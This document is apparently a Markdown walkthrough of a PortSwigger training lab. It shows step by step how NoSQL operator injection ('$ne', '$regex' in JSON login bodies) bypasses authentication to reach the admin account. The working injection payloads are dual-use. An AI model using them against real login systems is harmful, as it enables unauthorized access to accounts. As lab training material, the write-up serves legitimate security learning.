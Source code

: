 ## Welcome My friends , Today we will attack this [Lab: Exploiting NoSQL operator injection to bypass authentication](https://portswigger.net/web-security/learning-paths/nosql-injection/nosql-operator-injection/nosql-injection/lab-nosql-injection-bypass-authentication#)


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/bb479abf-bebc-46a9-bf62-5a53e90dad84)

credentials: ```wiener```:```peter```. 


### Let's login with our credentials


```
{"username":"wiener","password":"peter"}
```

![Screenshot from 2024-07-10 02-32-16](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/ff8175db-3b7b-417f-a0f6-662aadac96ed)


### # Now Let's change username to {"$ne":""} as following:


```
{"username":{"$ne":""},"password":"peter"}
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/28ef867c-f00e-4398-80c7-5b3045f92eb6)


### Now we use ```$regex``` operator Let's change username to ```{"$regex":"wi.*"}``` and change password to ```{"$ne":""}``` as following:

```
{"username":{"$regex":"wi.*"},"password":{"$ne":""}}
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/336fda8e-64c8-455d-ba3f-5fd0700d98bc)



### Ok we want admin account Let's change username to {"$regex":"admin.*"} and change password to ```{"$ne":""}``` as following:

```
{"username":{"$regex":"admin.*"},"password":{"$ne":""}}
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/b819b959-cae5-42a2-9267-8d2b219ad1ab)

## Great We have admin account 🥳.

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/be433a84-4b61-426d-becb-4c9814483f4e)
















